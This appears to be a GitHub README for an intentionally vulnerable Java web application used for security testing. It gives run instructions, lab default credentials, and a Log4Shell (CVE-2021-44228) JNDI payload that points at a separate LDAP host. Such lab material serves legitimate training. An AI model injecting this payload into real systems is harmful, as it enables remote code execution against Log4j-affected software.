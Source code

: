 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-latest.jar```
- The default username is ```jblogs``` and the default password is ```pa55word```.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

```
${jndi:ldap://172.16.182.1:8081/a}
```
